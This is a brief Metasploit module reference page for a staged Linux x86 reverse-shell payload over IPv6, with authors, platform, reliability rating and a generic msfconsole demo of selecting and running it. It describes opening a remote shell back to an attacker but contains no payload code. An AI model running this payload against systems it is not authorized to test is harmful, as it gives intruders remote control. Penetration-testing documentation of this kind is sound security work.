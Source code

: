 ## Linux Command Shell, Reverse TCP Stager (IPv6)

Spawn a command shell (staged). Connect back to attacker 
over IPv6


## Module Name
payload/linux/x86/shell/reverse_ipv6_tcp

## Authors
* skape
* kris katterjohn





## Platforms
* linux

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/linux/x86/shell/reverse_ipv6_tcp
msf payload(reverse_ipv6_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ipv6_tcp) > set TARGET <target-id>
msf payload(reverse_ipv6_tcp) > show options
   ... show and set options ...
msf payload(reverse_ipv6_tcp) > run
```
    
    